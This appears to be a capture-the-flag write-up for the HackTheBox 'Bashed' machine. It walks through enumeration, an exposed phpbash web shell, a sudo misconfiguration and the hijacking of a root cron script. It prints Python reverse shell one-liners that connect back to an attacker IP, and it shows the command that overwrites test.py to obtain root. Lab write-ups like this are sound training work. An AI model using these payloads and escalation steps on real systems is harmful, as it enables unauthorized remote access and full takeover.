


- Machine : https://app.hackthebox.com/machines/Bashed
- Reference : https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
- Solved : 2025.2.19. (Wed) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Port**: HTTP (80).
    - **Web Service**: Apache 2.4.18 (Ubuntu) hosting "Arrexel's Development Site".
    - **Directory Discovery**: Found `/uploads`, `/php`, `/dev` directories.
    
2. **Web Exploitation**
    - **Web Shell Discovery**: Located `phpbash.php` in `/dev`.
    - **Gaining Initial Access**: Used a reverse shell payload to obtain a `www-data` shell.
    
3. **Privilege Escalation to `scriptmanager`**
    - **Sudo Enumeration**: `www-data` could execute commands as `scriptmanager` without a password.
    - **Exploitation**: Executed `sudo -u scriptmanager bash` to escalate privileges.
    
4. **Privilege Escalation to `root`**
    - **Script Analysis**: Found `/scripts/test.py` executed by `root` periodically.
    - **Exploitation**:
        - Overwrote `test.py` with a reverse shell payload.
        - Waited for execution and gained a root shell.

### Key Techniques:

- **Directory Brute-Forcing**: Discovered `/dev` containing a web shell.
- **Web Shell Exploitation**: Used `phpbash.php` for initial foothold.
- **Sudo Misconfiguration**: Leveraged `sudo -u` to switch users.
- **Cron Job Exploitation**: Modified a root-executed script to gain root access.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.68        
Performing quick port scan on 10.10.10.68...
Found open ports: 80
Performing detailed scan on 10.10.10.68...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-18 22:56 MST
Nmap scan report for 10.10.10.68
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.87 seconds
```

Only port 80 is open to public..
The title of the web is "Arrexel's Development Site".

### http(80)

```bash
┌──(kali㉿kali)-[~]
└─$ nikto -h http://10.10.10.68
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.10.68
+ Target Hostname:    10.10.10.68
+ Target Port:        80
+ Start Time:         2025-02-18 22:57:51 (GMT-7)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed
+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649
+ /: Server may leak inodes via ETags, header found with file /, inode: 1e3f, size: 55f8bbac32f80, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
```

Nikto couldn't find anything useful here.

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/] 
```

`/uploads`, `/php`, `/dev` pages look interesting.

##### /dev



On `/dev` page, I found `phpbash.php` file is located.
"phpbash" is a webshell typically used as an webshell.



I opened an interactie webshell instead of this phpbash using the following payload;

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

Then, I can find that the users' home directory are accessible. 

```bash
www-data@bashed:/$ cd home
cd home
www-data@bashed:/home$ ls
ls
arrexel  scriptmanager
www-data@bashed:/home$ ls -al
ls -al
total 16
drwxr-xr-x  4 root          root          4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
drwxr-xr-x  4 arrexel       arrexel       4096 Jun  2  2022 arrexel
drwxr-xr-x  3 scriptmanager scriptmanager 4096 Dec  4  2017 scriptmanager
www-data@bashed:/home$ cd arrexel
cd arrexel
www-data@bashed:/home/arrexel$ ls
ls
user.txt
```

Here I can find `user.txt` flag.


# Shell as `scriptmanager`

### Enumeration

Let's run `LinPEAS` to enumerate the system. (Need to upload the linpeas binary first)

```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                         
Matching Defaults entries for www-data on bashed:                           
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL


╔══════════╣ Users with console
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash                      
root:x:0:0:root:/root:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

Luckily, current user can do `sudo` command.

### Spawn a shell as `scriptmanager`

```bash
www-data@bashed:/tmp$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:/tmp$ whoami
whoami
scriptmanager
```

I got a shell of `scriptmanager` now.


# Shell as `root`

### Script

```bash
scriptmanager@bashed:/$ ls -al /scripts
ls -al /scripts
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Feb 18 23:48 test.txt
```

Due to the name of the user `scriptmanager`, I expected there was a directory for scripts.
And as expected, there is `/scripts` directory.

```bash
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
```

It seems that `test.py` is run by `root`, and create `test.txt` repeatidely.
Let's run `pspy64` to observe this.

```bash
scriptmanager@bashed:/tmp$ ./pspy64
./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

<SNIP>
2025/02/19 00:08:03 CMD: UID=0     PID=1      | /sbin/init noprompt 
2025/02/19 00:09:01 CMD: UID=0     PID=18637  | /usr/sbin/CRON -f 
2025/02/19 00:09:01 CMD: UID=0     PID=18636  | /usr/sbin/CRON -f 
2025/02/19 00:09:01 CMD: UID=0     PID=18640  | python test.py 
<SNIP>
```

The script `test.py` is run by `root`!
Since `test.py` is editable by `scriptmanager`, I can edit this file to spawn a root shell.

```bash
scriptmanager@bashed:/scripts$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' > test.py
cket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' > test.py
```

I overwrite `test.py` with reverse shell payload.
After a while, I got a root shell!

```sql
┌──(kali㉿kali)-[/opt/pspy]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.68] 47340
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# ls
ls
root.txt
```
